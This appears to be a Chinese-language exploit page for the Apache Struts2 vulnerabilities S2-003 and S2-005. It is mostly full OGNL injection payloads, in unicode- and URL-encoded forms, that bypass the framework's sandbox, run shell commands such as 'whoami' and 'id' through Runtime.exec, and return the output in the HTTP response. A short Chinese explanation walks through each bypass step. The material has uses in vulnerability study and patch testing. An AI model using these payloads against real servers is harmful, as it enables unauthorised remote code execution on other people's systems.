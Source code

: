 ## S2-003

```java
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'whoami\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

unicode解码后为:

```
('#context[\'xwork.MethodAccessor.denyMethodExecution\']=false')(bla)(bla)&('#_memberAccess.excludeProperties=@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('#mycmd=\'whoami\'')(bla)(bla)&('#myret=@java.lang.Runtime@getRuntime().exec(#mycmd)')(bla)(bla)&(A)(('#mydat=new\40java.io.DataInputStream(#myret.getInputStream())')(bla))&(B)(('#myres=new\40byte[51020]')(bla))&(C)(('#mydat.readFully(#myres)')(bla))&(D)(('#mystr=new\40java.lang.String(#myres)')(bla))&('#myout=@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('#myout.getWriter().println(#mystr)')(bla))
```

> 首先要对#、@字符进行unicode编码来绕过Struts2的安全限制,然后设置xwork.MethodAccessor.denyMethodExecution属性为false来开启方法调用来绕过安全沙盒的限制.

> 然后调用java.util.Collections类中的EMPTY_SET属性对memberAccess.excludeProperties进行空赋值,完成绕过.

> 剩下的流程就是执行命令,并把结果回显出来.首先定义一个字符串对象#mycmd='whoami',然后以mycmd为参数调用java.lang.Runtime类的getRuntime().exec()方法进行执行命令,然后以执行的命令结果的输入字节流为参数新建一个java.io.DataInputStream对象,用来来获取执行命令结果的输入字节流.之后新建一个数组,然后把在输入流中读取的字符赋值给这个数组.然后以这个数组为参数新建一个字符串对象,之后调用org.apache.struts2.ServletActionContext类的getResponse()方法获取一个response对象,最后调用response对象的getWriter().println方法输出这个字符串,于是就看到了命令回显内容.

## S2-005

```java
('%5Cu0023context%5B%5C'xwork.MethodAccessor.denyMethodExecution%5C'%5D%5Cu003dfalse')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('%5Cu0023mycmd%5Cu003d%5C'id%5C'')(bla)(bla)&('%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime().exec(%5Cu0023mycmd)')(bla)(bla)&(A)(('%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream(%5Cu0023myret.getInputStream())')(bla))&(B)(('%5Cu0023myres%5Cu003dnew%5C40byte%5B51020%5D')(bla))&(C)(('%5Cu0023mydat.readFully(%5Cu0023myres)')(bla))&(D)(('%5Cu0023mystr%5Cu003dnew%5C40java.lang.String(%5Cu0023myres)')(bla))&('%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('%5Cu0023myout.getWriter().println(%5Cu0023mystr)')(bla))
```

```java
?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27whoami%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```
